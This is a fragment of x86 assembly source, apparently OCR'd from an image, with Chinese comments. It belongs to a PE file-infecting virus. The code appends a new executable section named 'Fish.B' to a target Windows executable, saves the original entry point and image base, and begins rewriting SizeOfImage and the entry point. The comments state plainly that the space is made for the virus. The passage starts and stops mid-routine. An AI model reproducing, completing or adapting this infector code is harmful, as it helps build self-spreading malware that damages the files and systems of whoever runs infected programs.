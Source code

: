 ```asm
mul ecx
add eax,pe_header_off[ebp]
add eax,18h ;PE Header长度
movzx esi,[ebx].FileHeader.SizeOfOptionalHeader
add eax,esi	; eax 现在指向第一个节表项的位置
mov NewSection_off[ebp], eax ;保存新节起始RVA
add eax,28h    ;比较增加新节后是否超出SizeOfHeaders  (节.TEXT在文件中的RVA)
cmp eax,[ebx].OptionalHeader.SizeOfHeaders
ja  Infest   ;即使没有添加空间还是可以免疫

; 修改映射文件大小，对齐 PE 文件尾部，为病毒添加新节提供安全空间
mov ecx,FileAlign[ebp]
xor edx,edx
div ecx	; 计算应占用几个对齐单位
test edx,edx
jz NoChange
inc eax
NoChange:
mul ecx
mov fsize[ebp],eax;文件尺寸节文件对齐
add eax,1000h 

; 保存原入口
assume ebx:ptr IMAGE_NT_HEADERS
Noinfect:
mov  eax,[ebx].OptionalHeader.AddressOfEntryPoint
mov old_in[ebp],eax
mov eax, [ebx].OptionalHeader.ImageBase
mov old_base[ebp],eax  

; 在节表中添加新节
mov edi,NewSection_off[ebp]    ;新节的RVA
add edi,pMapping[ebp] ;edi->新节起始地址
inc [ebx].FileHeader.NumberOfSections ;节数目+1
mov esi,edi  ;edi指向新节
sub esi,28h  ;esi指向上一个节
assume edi:ptr IMAGE_SECTION_HEADER
assume esi:ptr IMAGE_SECTION_HEADER
mov [edi].Name1, ‘B.’;  为新节命名
mov [edi+2h].Name1, ‘hsiF’;  为新节命名
push [ebx].OptionalHeader.SizeOfImage ;原文件映像装入内存后的总尺寸,对齐SectionAlignment.
pop [edi].VirtualAddress   ;新节在内存中的地址
mov eax,offset vend-offset vstart
mov [edi].Misc.VirtualSize,eax ;新节的大小(未对齐)
mov ecx,[ebx].OptionalHeader.FileAlignment
xor edx,edx
div ecx
test edx,edx
jz NoChange1 
inc eax 
NoChange1:
mul ecx
mov [edi].SizeOfRawData,eax ;新节对齐FileAligment后的大小
mov eax,fsize[ebp]
mov [edi].PointerToRawData,eax ;本节在文件中的位置
mov [edi].Characteristics,0E0000020h ;可读可写可执行 	

; 更新SizeOfImage,AddressOfEntryPoint 
mov eax,[edi].Misc.VirtualSize ;新节的大小(未对齐)
mov ecx,[ebx].OptionalHeader.SectionAlignment ;内存节对齐
xor edx,edx
div ecx
test edx,edx
```